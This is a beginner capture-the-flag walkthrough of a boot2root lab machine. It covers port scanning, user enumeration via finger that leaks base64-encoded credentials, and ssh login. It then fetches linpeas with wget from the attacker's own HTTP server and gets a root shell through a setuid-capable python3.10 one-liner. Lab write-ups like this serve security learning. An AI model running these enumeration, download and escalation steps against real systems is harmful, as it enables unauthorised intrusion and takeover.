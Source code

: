 # Task 15 - Chess Industry

Category: Boot2Root
Difficulty: Beginner

# nmap

Starting out, we start an nmap-scan as usual when it is a boot2root machine. Since we want to know what ports are open and find what our possible ways into the machine might be.

![task15_2](https://github.com/user-attachments/assets/d4208b05-9f6d-472f-ad59-fb37c5f0d915)

We find that there are 3 ports of interest to start off with. ssh, http and finger. Finger is something I've never encountered before, and we have no credentials for ssh. So the obvious choice to start out with is checking out what we can find on the http port.

# http

As we enter the site this is what we're greeted with.

![task15_1](https://github.com/user-attachments/assets/f2341a36-3e22-42b4-a3a2-215735bc75c5)

There isn't really much of note at first glance. But to the keen eye we can actually gather some vital information. There are three names here. They might actually be used as usernames as well.

# finger

Since I didn't really have any knowledge about this since before. I tried looking up what it was used for and found this in the man-page of finger.

```
NAME
       finger — user information lookup program

SYNOPSIS
       finger [-lmsp] [user ...] [user@host ...]

DESCRIPTION
       The finger displays information about the system users.
```
So it can be used to lookup users. What if we try this with the names from the site?

```
finger magnus@10.10.107.122 && finger fabiano@10.10.107.122 && finger hikaru@10.10.107.122
```

![task15_3](https://github.com/user-attachments/assets/6399b960-74f5-4c0e-a5f9-b3828e003c90)


Interesting, in fabiano's output we find a string that looks encoded. We can paste it in on https://dencode.com/en/ and let it try to decode it.

There we find that it is encoded with base64 and it is something that looks like credentials in the form of "username:password"

Where can we use them? We have a service that we know is running on the server that we haven't explored yet. Namely SSH.

# ssh

![task15_4](https://github.com/user-attachments/assets/54605fa3-640e-48cf-98cb-44de34f490e6)


Success! We're in. Now if we list the contents of fabianos home directory we find the user-flag.

So now we have the user-flag. Now we have to try to get root and the root flag. How would we do this? Let's make it easy shall we and let linpeas enumerate the machine for us to try to find ways we can escalate privileges.

As usual the first thing to try is to see if we have anything we can run with sudo.

```
sudo -l
```
No luck, but always worth a shot.


```
cd /tmp
```

We change directory to tmp so we can download linpeas into that directory and not have to mess with the home directory. And since we already have linpeas on our local system as part of Kali we go into the directory containing the script on our local machine. There we'll host a simple http server and download the script from our local machine to the target.

```
#locally
cd /usr/share/peass/linpeas && python3 -m http.server -port 1338

#target
wget http://10.9.245.105:1338/linpeas.sh
```

Now that we have the script downloaded onto our target. We will let it enumerate vulnerabilities for privilege escalation and see if we can find a way to get root.

```
bash linpeas.sh
```

![task15_5](https://github.com/user-attachments/assets/7258c02d-e850-4643-8c0d-780d9b29d124)


Very nice! We find out that python3.10 has setuid capabilities. We should be able to leverage this. We just need to make python start something for us with root uid.

```
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![task15_6](https://github.com/user-attachments/assets/abdf5bf3-93a3-4911-9a90-ddd6417ee9d5)


Awesome now we can just read /root/root.txt and get our root-flag and we're done.

# final thoughts

I found this machine a good start to the CTF. It was extremely beginner friendly and straight forward. A good start to build confidence in the participants. Always nice to be able to get a challenge done.
